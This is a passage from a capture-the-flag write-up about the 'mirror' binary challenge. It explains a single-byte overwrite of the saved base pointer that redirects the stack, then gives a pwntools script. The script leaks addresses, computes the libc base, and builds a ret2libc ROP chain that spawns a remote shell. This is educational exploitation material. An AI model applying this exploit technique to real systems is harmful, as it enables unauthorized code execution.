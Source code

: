 We have four candidates, only one of which is amd64 so it's pretty easy to pick from them.  The server is likely running libc 2.27.  

## putting it all together

We only have a single byte overrun so we can't overwrite the return pointer directly but as it turns out we don't need to because the main function returns after `reveal` finishes.  The "true" stored stack base pointer and the address of the buffer we're writing to only differ by a single byte so we can overwrite that byte and when `reveal` returns it will adjust the stack frame such that when main returns it looks to the beginning of our buffer for the return pointer.  We also know the libc version and the address of a symbol within libc so we can perform a [ret2libc](https://en.wikipedia.org/wiki/Return-to-libc_attack) attack and call `system("/bin/sh")`

```python
#!/usr/bin/env python3

from pwn import *
import re
exe = ELF("mirror")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        libc = ELF("/home/sky/libc-database/db/libc-2.32-5-x86_64.so")
        return (libc, process([exe.path]))
    else:
        libc = ELF("/home/sky/libc-database/db/libc6_2.27-3ubuntu1.3_amd64.so")
        return (libc, remote("docker.hackthebox.eu", 30272))


def send_padded(r, msg, l):
    assert len(msg) <= l
    r.send(msg + b"A" * (l - len(msg)))

def main():
    libc, r = conn()

    libc_rop = ROP(libc)
    POP_RDI = (libc_rop.find_gadget(['pop rdi', 'ret']))[0]

    send_padded(r,b"y",0x1f)

    r.recvuntil("This is a gift from the craftsman..")
    addresses = r.recvline().decode()

    capture = re.search("\[(.*)\] \[(.*)\]", addresses)
    stack_addr = int(capture.group(1),16)
    printf_addr = int(capture.group(2),16)
    stack_exec_addr = stack_addr - 8 # gotta move this back 8 bytes so that the stored return pointer is at the front of our buffer
    libc_base = printf_addr - libc.symbols["printf"]

    libc.address = libc_base
    buf = p64(libc_base + POP_RDI) + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols['system']) + b"B" * 8 + bytes([(stack_exec_addr) & 0xff])
    r.send(buf)
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
```